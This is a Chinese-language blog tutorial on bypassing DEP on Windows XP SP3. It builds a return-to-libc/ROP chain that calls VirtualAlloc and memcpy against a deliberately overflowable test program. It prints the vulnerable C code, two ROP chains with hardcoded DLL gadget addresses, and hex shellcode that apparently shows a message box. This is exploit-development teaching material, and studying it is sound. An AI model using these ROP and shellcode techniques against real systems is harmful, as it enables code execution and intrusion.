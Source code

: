 ```yaml
---
layout:		post
title:		Ret2Libc实战之利用VirtualAlloc
author:		wooy0ung
tags:		
category:  	exploit
---
```



>[分析环境]  
>系统: Windows XP Professional sp3  
>编译器: VC++ 6.0  
>调试器: OllyDbg 1.10  
>说明: 没有启用GS & SafeS.E.H, release版本, 禁用优化
<!-- more -->


VirtualAlloc函数说明
```
LPVOID WINAPI VirtualAlloc(
	__in_opt 	LPVOID	lpAddress,
	__in		SIZE_T	dwSize,
	__in		DWORD	flAllocationType,
	__in		DWORD	flProtect		
);
```

先贴入以下代码测试溢出, eip会覆盖成0x90909090

```
#include "stdafx.h"
#include <stdlib.h>
#include <string.h>
#include <stdio.h>
#include <windows.h>

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"

void test()
{
	char tt[176];
	memcpy(tt,shellcode,450);
}

int main(int argc, char* argv[])
{
	HINSTANCE hInst=LoadLibrary("shell32.dll");
	char temp[200];
	printf("emmmm");
	test();

	return 0;
}
```

然后就是构造rop链先后调用VirtualAlloc & memcpy

![](/assets/img/exploit/2017-12-22-disable-dep-virtualalloc/0x00.png)

返回eax=0x00030000表示内存分配成功

![](/assets/img/exploit/2017-12-22-disable-dep-virtualalloc/0x01.png)

VirtualAlloc参数传递栈布局如图

```
······					// junk 180 byte
"\xE5\xE0\x72\x7D"		// push esp pop ebp retn 4
"\xE3\x9A\x80\x7C"		// kernel32.VirtualAllocEx   0x7C809AE3
"\x90\x90\x90\x90"
"\x7d\x99\x80\x7c"		// pop eax retn
"\x00\x00\x03\x00"		// 申请空间起始地址
"\xFF\x00\x00\x00"		// 申请空间大小
"\x00\x10\x00\x00"		// 申请类型
"\x40\x00\x00\x00"		// 申请空间访问地址
"\x9e\x37\xfa\x77"		// address of pop edi pop esi retn
"\xE5\xE0\x72\x7D"		// push esp pop ebp retn 4
"\xb8\x1d\x92\x7c"		// memcpy
"\xc7\xc6\xeb\x77"		// jmp eax
"\x00\x00\x03\x00"		// destination
"\xf8\xfe\x12\x00"      // source
"\xff\x00\x00\x00"		// length
"\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x90\x90\x90\x90"
······					// payload 113 byte
```

根据调试得到存放payload的栈地址, pwn~

![](/assets/img/exploit/2017-12-22-disable-dep-virtualalloc/0x02.png)

由于source地址是调试得到的, 极不稳定, 以下是通用性好些的shellcode

```
······					// junk 180 byte
"\xE5\xE0\x72\x7D"		// push esp pop ebp retn 4
"\xE3\x9A\x80\x7C"		// kernel32.VirtualAllocEx
"\x90\x90\x90\x90"
"\x7d\x99\x80\x7c"		// pop eax retn
"\x00\x00\x03\x00"		// 申请空间起始地址
"\xFF\x00\x00\x00"		// 申请空间大小
"\x00\x10\x00\x00"		// 申请类型
"\x40\x00\x00\x00"		// 申请空间访问地址
"\xB1\x1D\x92\x7C"		// pop esi retn
"\x36\xD4\x5D\x7D"		// pop edi
"\x00\x00\x03\x00"		// destination
"\xA0\x6F\x5F\x7D"		// pop ecx
"\xff\x00\x00\x00"		// length
"\xc6\xc6\xeb\x77"		// source, push esp jmp eax
"\xE5\xE0\x72\x7D"		// push esp pop ebp retn 4
"\xc1\x1d\x92\x7c"		// memcpy
"\x7d\x99\x80\x7c"		// pop eax retn
"\x18\x00\x03\x00"
"\xc7\xc6\xeb\x77"		// jmp eax
"\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08"
"\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c"
"\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01"
"\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69"
"\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01"
"\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x67\x20\x20\x01\x68\x79\x30\x75"
"\x6e\x68\x20\x77\x6f\x6f\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff"
"\xd7";
```